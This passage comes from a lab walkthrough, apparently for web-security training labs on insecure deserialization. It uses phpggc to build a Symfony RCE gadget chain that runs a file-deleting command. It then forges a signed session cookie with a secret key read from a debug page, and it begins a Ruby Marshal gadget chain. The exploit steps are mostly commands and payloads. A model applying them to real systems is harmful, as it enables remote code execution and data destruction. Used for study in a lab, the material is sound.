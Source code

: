 Copy the returned value and URL encode it before sending as a cookie value along with any request to solve the lab.

### LAB: Exploiting PHP deserialization with a pre-built gadget chain
Download the `phpggc` tool for generating PHP gadget chain payloads:

    git clone https://github.com/ambionics/phpggc.git
    cd phpggc
    chmod +x phpggc.php

First login to the given account and try modifying the cookie to something arbitrary $\to$ got the error:

    Internal Server Error: Symfony Version: 4.3.6

From this we know that we can use `Symfony/RCE4` to generate the payload. Generate gadget chain payload using `phpggc` (Base64 encode it and remove the new line characters):

    php phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0

Now investigate the cookie value, it contains a token that is Base64 encoded and a HMAC-SHA1 signature of that token:

    {"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGxzeWRvNGExeDBxbm56Z2V6OXdsdTY2YTl1cWpqZSI7fQ==","sig_hmac_sha1":"31b2f4a2e885d90408d979f0c1a58760d6794b67"}

Base64 decode the token:

    {"token":"O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vtlsydo4a1x0qnnzgez9wlu66a9uqjje";}","sig_hmac_sha1":"31b2f4a2e885d90408d979f0c1a58760d6794b67"}

Now in order to successfully inject the gadget chain payload we need to find the key to sign it. Fortunately, there is a comment in the source code showing us where to find it:

    <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->

Visit that page and look for the `SECRET_KEY` value. Now paste all the needed value in to the [PHP code](./HMAC-SHA1-sign.php) to generate a valid cookie. Use that along with any request to solve the lab.

### LAB: Exploiting Ruby deserialization using a documented gadget chain
This lab uses Ruby on Rails framework. Go read this [article](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) to know more about how this gadget chain payload is created:

    # Autoload the required classes
    Gem::SpecFetcher
    Gem::Installer

    # prevent the payload from running when we Marshal.dump it
    module Gem
    class Requirement
        def marshal_dump
        [@requirements]
        end
    end
    end

